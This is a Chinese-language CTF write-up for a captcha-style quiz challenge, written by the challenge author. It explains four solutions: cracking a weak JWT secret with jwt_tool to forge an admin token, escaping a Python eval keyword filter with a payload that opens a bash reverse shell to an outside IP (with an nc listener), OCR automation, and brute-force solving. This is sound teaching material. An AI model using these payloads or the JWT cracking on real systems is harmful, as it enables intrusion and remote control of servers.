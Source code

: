 # I am not a robot!

- 出题人: pyy

- 验题人: pyy

## 题目描述

为了证明自己的身份, 冲吧少年!

注: 这道题的flag格式可能为了好看(?)所以做了一些小小的改动, 不过不用担心, 你一眼就能认出来的

- tips: 可以思考一下`服务器是怎么实现这些功能的`? 如果让你写一个类似的程序 (不包括编写网站的知识, 就单纯把它看做是一个`给定输入输出格式的函数`, 要求实现这样的功能) 的话, 你会用什么方法实现?

- tips2: 本题的提示非常的良心, 一个提示, 四种思路, 36分你买不了吃亏, 买不了上当, 真正的物超所值! 赶紧快来抢购吧!

- tips3: 这题是用python写的, python是一门著名的`解释型语言`。

- tips4: 在这道题的世界里, 出题人毫无安全意识, 非常喜欢使用弱密码。

上轮提示:

- 服务器怎么知道你是谁?
- 服务器怎么知道你答出了几道题?
- 服务器怎么知道你正在答的是哪道题? 而它又怎么知道这题的答案?
- 服务器怎么判断答案的正确性?(譬如: 怎么处理除法的分数?)

- 注: 本题共有四种解题思路, 上面的问题想通一两点或许对解题也有很大的帮助

以及36分提示:

- cookie好像有很多种?
- 有没有可能, 它的过滤不是很全?
- ocr做不到的事情, 如果自己写一份字符匹配呢?(只有10个数字和符号的匹配)
- 其实500道的话......2个小时应该也可以算完?

## 出题思路

曾经有一道验证码题, 那个图是看一眼就很花, 然后就借鉴了一下验证码的思路出了这题。(但增加了各种奇怪的解法, 因为出题的时候正好想到了.jpg)

原本这道题是有`% | & ^`运算符的, 这样的话按照逻辑就会过滤掉这四个运算符, 至少shell弹不出来了, 现在还是能弹的。

## 解法

### 预期解法1(jwt)

![image-20220506173829929](readme.assets/image-20220506173829929.png)

本题用这个样的jwt来记录做出的题以及当前的题目地址, 进jwt.io翻译一下:

![image-20220506174005465](readme.assets/image-20220506174005465.png)

当做出一道题之后n会变成1。

那么目前要做的就是改n了, 尝试着改改看:

![image-20220506174155928](readme.assets/image-20220506174155928.png)

然后被发现了。这个就是jwt第三部分的作用。

尝试伪造jwt需要破解它的密码, 既然是弱密码那就走一个爆破。

`.\jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6InRpY2FycGkifQ.bsSwqj2c2uI9n7-ajmi3ixVGhPUiY7jO9SUn9dm15Po -C -d ..\..\docs\dicts\fuzzDicts\passwordDict\top19576.txt`

![image-20220506180255729](readme.assets/image-20220506180255729.png)

然后拿admin去造一个jwt就好了:

![image-20220506180336720](readme.assets/image-20220506180336720.png)

### 预期解法2

应当使用分数回答除法题, 那么背后最省力的做法就是放个eval(我偷了懒, 你们也获得了一种新的解法, winwin~)

随便打一个import进去, 发现有提示过滤了什么

![image-20220506180748743](readme.assets/image-20220506180748743.png)

我们偷看一眼源码, 发现过滤了['eval','exec','import','system','getattr','open','kill','+','*'], 但没过滤`__builtins__`和`__dict__`, 那就好办了。

payload: `__builtins__["__imp""ort__"]("os").__dict__['po''pen']('bash -c "bash -i >& /dev/tcp/45.11.2.122/27420 0>&1"')`(不知道为啥本地测试的时候builtins后面要加dict, fastapi里跑起来的时候又不用了(也是本地)?)

此时开个内网穿透, 用linux中的nc执行`nc -lvp 42648`, 完成反弹shell。

![image-20220506191649364](readme.assets/image-20220506191649364.png)

`cat app.py`获取源码

![image-20220506191738798](readme.assets/image-20220506191738798.png)



### 预期解法3

做一份图像匹配然后自动交题, 主要是用正则获取图片链接下载, 然后本地计算后上交。

### 预期解法4

500道题, 很快的啦~
